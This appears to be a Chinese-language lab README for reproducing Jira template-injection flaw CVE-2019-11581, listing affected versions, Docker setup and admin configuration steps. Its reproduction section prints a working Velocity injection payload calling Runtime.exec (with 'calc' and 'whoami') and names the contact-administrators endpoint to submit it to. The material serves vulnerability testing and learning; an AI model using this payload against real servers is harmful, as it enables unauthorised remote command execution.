






# Atlassian Jira 模板注入漏洞（CVE-2019-11581）

Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。
多个版本前存在利用模板注入执行任意命令：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

参考资料：

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw

## 环境搭建

执行如下命令启动一个Jira Server 8.1.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会进入安装引导，切换“中文”，VPS条件下选择“将其设置为我”（第一项）去Atlassian官方申请一个Jira Server的测试证书（不要选择Data Center和Addons）：

然后继续安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。



添加 SMTP 电邮服务器 `/secure/admin/AddSmtpMailServer!default.jspa`



进入系统设置 `/secure/admin/ViewApplicationProperties.jspa` ，开启“联系管理员表单”



貌似还要有项目才能玩，所以随便创建一个示例就行了,然后你就可以愉快的玩耍了

## 漏洞复现

PoC 和 CVE-2019-3396 一样

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

Linux 没有 calc, 所以

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

运行`poc.py`或者进入`/secure/ContactAdministrators!default.jspa` 直接提交 PoC





如果没看到 smtpd 有数据，那么就可能卡队列了

电邮队列瞅一瞅 `/secure/admin/MailQueueAdmin!default.jspa`


